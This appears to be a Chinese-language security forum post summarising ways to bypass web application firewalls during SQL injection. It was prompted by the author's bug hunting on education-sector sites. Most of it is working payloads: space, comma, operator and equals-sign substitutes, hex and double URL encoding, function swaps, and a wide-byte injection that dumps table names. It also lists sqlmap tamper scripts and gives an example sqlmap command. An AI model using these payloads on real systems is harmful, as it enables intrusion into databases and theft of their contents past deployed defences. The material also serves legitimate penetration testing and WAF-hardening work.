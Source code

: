 sql注入绕过与sqlmap绕过使用总结
====================

前言
--

最近挖edusrc的时候遇到有注入点但是有waf绕不过，头疼。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-9b5017eb2ae4ec92c20e359ed61f6f9d0036489a.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-9b5017eb2ae4ec92c20e359ed61f6f9d0036489a.png)  
可以看到还是phpstudy建站的，太熟悉了这个，不知道这个什么waf各位师傅知道的可以评论一下，所以写这篇文章是供各位师傅在实战中遇到waf可以看一看，能给各位师傅一点帮助，所以就想着写一篇。

还有一个很有可能是有注入点的但是，用了很多注入语句都不行，不知道怎么回事  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-566658d18fb28c4a52ff89dd108378c64af240c4.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-566658d18fb28c4a52ff89dd108378c64af240c4.png)  
后面再去慢慢研究。

正文
--

### 手动绕过

一：空格被过滤  
当空被过滤掉的时候（也就是被删掉的意思）问你就可以使用编码或者注释进行绕过

```php
%20,%09,/**/  /*注释*/%0a,%0b,%0c,%0d,%a0
```

二：空格被过滤，括号未被过滤

像这样的

```php
select(admin())from data where(1=1)and(2=2)
id=1%27and(sleep(ascii(mid(data()from(1)for(1)))=1))%23
```

ascii：用字符的ASCII码来寻找

这里用多个括号代表空格

三：逗号绕过---当我们需要用到offset、join、limit这些语句的时候。

使用join:

```php
union select 1,2
/代替成join
union select * from (select 1)a join (select 2)b
```

使用offset：

```php
limit 2,1代替成limit 1 offset 2
```

使用like:

```php
select ascii(mid(user(),1,1))=97
/使用like来寻找含有“a”的表（代替了上面的查询绕过了逗号）
select user() like 'a%'
```

四：or and not xor绕过

如果在测试过程中出现这三个被过滤我们可以用他们等价的语句进行注入

```php
'and'等价于'&&'   'or'等价于'||'    'xor'等价于'|'   'not'等价于'!'
```

五：等号绕过

```php
?id=1 or 1 like 1 /用like代替了等号
?id=1 or 1 rlike 1 /用rlike代替了等号
?id=1 or 1 regexp 1 /用regexp代替了等号
?id=1 or !(1 <> 1)或者1 !(<>) 1 /<> 等价于 != 所以在前面再加一个!结果就是等号了(双重否定变肯定)
```

六：编码绕过---前提条件是没有对编码进行过滤

```php
/16进制绕过
select * from users where username = user;
select * from users where username = 0x75736572;
/两次url全编码
1+and+1=2
1+%25%36%31%25%36%65%25%36%34+1=2 
```

七：函数代替绕过--当输入函数被禁止时

```php
/当一方函数被禁用时候就可以用另一边的函数进行注入
hex()、bin()等价于ascii()
sleep() 等价于benchmark()
concat_ws()等价于group_concat()
mid()、substr() 等价于substring()
@@user等价于user()
@@datadir 等价于atadir()
```

八：宽字节绕过--前提条件所输入的单双引号会被转义

```php
%df' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() -- qwe
```

这里我们在单引号前面了一个%df来绕过。

### sqlmap绕过

sqlmap中的tamper里面很多防过滤的脚本，都是很实用的  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-b8b5c14edc1eb5d379ba2ae4d9542eacf7e34c64.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-b8b5c14edc1eb5d379ba2ae4d9542eacf7e34c64.png)  
里面有很多类型的过滤，具体要实用那个脚本，我们要适当的手工测试  
例如  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-1f1ef84685ce5632b49df84d57d2d84252fb8770.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-1f1ef84685ce5632b49df84d57d2d84252fb8770.png)  
单引号没过滤，

再试一试其他的  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-1a035010fdccdfbedcfd69d5bf6cec9d96e6d56d.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-1a035010fdccdfbedcfd69d5bf6cec9d96e6d56d.png)  
等于号没过滤

还有很多可以尝试，就不一个个说了

下面说一下脚本的利用说明

```php
apostrophemask.py   用utf8代替引号       ("1 AND '1'='1") '1 AND %EF%BC%871%EF%BC%87=%EF%BC%871' 
base64encode.py     用base64编码替换       ("1' AND SLEEP(5)#")'MScgQU5EIFNMRUVQKDUpIw=='
multiplespaces.py   围绕SQL关键字添加多个空格     ('1 UNION SELECT foobar')'1    UNION     SELECT   foobar'
space2plus.py       用+替换空格              ('SELECT id FROM users')'SELECT+id+FROM+users'
nonrecursivereplacement.py  双重查询语句。取代predefined SQL关键字with       ('1 UNION SELECT 2--')'1 UNIOUNIONN
SELESELECTCT 2--'
space2randomblank.py    代替空格字符（“”）从一个随机的空白字符可选字符的有效集    ('SELECT id FROM users')
'SELECT%0Did%0DFROM%0Ausers'
unionalltounion.py    替换UNION ALL SELECT UNION SELECT         ('-1 UNION ALL SELECT')'-1 UNION SELECT'
securesphere.py     追加特制的字符串    ('1 AND 1=1')"1 AND 1=1 and '0having'='0having'"
```

还有很多师傅们可以到网上去查。

最后使用格式直接在语法里面加上--tamper "要使用的脚本"

例如：  
sqlmap.py -u "<http://www.xxxxx.com/test.php?id=1>" --delay=2 --random-agent --tamper "versionedmorekeywords.py"

要使用两个脚本的话就再加上去但是第一个后缀要去掉：--tamper "space2comment,versionedmorekeywords.py"

结语
--

在很多实战中都会有很多waf要绕过的，我们可以根据是什么waf来选择特定的来绕过，这样就不会浪费时间，一般判断是什么waf就指纹识别或者给个注入语句看看是什么拦截了。